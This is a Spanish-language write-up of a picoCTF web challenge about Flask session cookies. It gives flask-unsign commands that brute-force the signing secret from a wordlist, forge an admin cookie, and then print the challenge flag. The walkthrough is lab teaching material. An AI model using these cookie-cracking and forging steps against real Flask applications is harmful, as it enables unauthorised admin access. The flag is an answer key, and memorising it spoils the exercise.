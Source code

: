 Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
Hints
- How secure is a flask cookie?
# Solucion
Este problema requiere cambiar la carga útil en el JWT. Conociendo los secretos posibles de server.py, se puede forzar usando flask-unsign. 
Para descargarlo en la terminal de linux se usa:
apt-get update
apt install python3-pip
pip install flask-unsign
En el archivo server.py separamos todas las posibles cookies en un .txt lo nombramos como keys,
luego se ingresa al sitio web y en el apartado de cookies copiamos la cookie de session y ejecutamos el siguiente comando union el archivo de texto, la cookie y el comando flask.unsign -u -c:
flask-unsign -u-c eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z3JzQ.v9mB8iXN4AQ3szo22z9rOlbRseU -w
keys.txt
Al ejecutarlo aparece la secret key, en mi caso fue fortune,  la cual vamos a poner junto con el siguiente comando:
flask-unsign -s -c "{'very_auth' : 'admin'}" -S fortune
Asi aparece la cookie jwt, la cual vamos a editarla en la cookie de session del sitio web y refrescar la pagina, de esa manera aparece la bandera:
`picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}`
